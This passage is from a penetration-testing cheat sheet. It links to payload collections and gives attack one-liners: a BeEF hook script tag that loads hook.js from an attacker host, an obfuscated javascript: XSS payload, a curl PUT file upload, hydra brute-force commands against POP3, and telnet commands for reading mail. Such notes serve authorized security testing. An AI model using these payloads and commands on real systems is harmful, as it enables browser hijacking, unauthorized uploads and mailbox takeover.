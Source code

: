 ```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

https://cobalt.io/blog/a-pentesters-guide-to-sql-injection-sqli
```

### XSS

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

beef-xss
cat /usr/share/beef-xss/config.yaml | grep user -C 1 # user / password
<script src="http://<IP>:3000/hook.js"></script>

url=%26%2302java%26%23115cript:alert(document.domain)
```

### Other web vulnerabilities

```
https://github.com/swisskyrepo/PayloadsAllTheThings
```

### Upload a file with PUT

```
curl -X PUT http://<IP>/<FILE> -d @<FILE>  -v
```

---

## KERBEROS - 88

```
https://www.tarlogic.com/en/blog/how-to-attack-kerberos/
```

---

## POP3/IMAP - 110

### Brute force

```
hydra -l <USER> -P <PASSWORDS_LIST> -f <IP> pop3 -V
hydra -S -v -l <USER> -P <PASSWORDS_LIST> -s 995 -f <IP> pop3 -V
```

### Read mail

```
telnet <IP> 110

USER <USER>
PASS <PASSWORD>
LIST
RETR <MAIL_NUMBER>
QUIT
```

